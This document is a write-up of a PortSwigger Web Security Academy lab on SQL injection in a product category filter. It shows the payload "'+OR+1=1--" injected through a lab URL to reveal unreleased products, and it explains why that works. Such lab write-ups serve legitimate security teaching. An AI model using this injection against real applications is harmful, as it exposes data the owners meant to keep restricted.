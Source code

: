 # SQL Injection Vulnerability in WHERE Clause Allowing Retrieval of Hidden Data - PortSwigger

## Challenge Description

* **Category**: SQL Injection
* **Description**: This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:

```
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products.
* **Link Resource**: `https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data`

## Solution

### Step 1 : Find the vulnerability

* Basically in many cases of SQL database, it mostly using single quotes `'` to denote string literals.
* That reason is completely enough to give our first shot to this payload

```
'+OR+1=1--
```

[firstshot](../../assets/portswigger2-1.png)

### Step 2 : ExploIT

* We will use our payload to the search cell like this

```
https://0aad004103c1f0aa801a08f0002000b8.web-security-academy.net/filter?category=Gifts+%27OR+1=1--
```

[exploitation](../../assets/portswigger2-2.png)

## Result

We are able to acquire the flag.

## Explanation

The vulnerability exploited here is a **Boolean-based SQL Injection** in the `WHERE` clause of the product category filter. Because the application directly embeds user input into the SQL query without sanitization, we injected the payload `' OR 1=1--` to bypass the intended condition `released = 1`. The injected logic forces the query to always evaluate as true, returning all products from the database, including unreleased ones that should have been hidden. This demonstrates how improperly handled input in SQL queries can expose sensitive or restricted data.
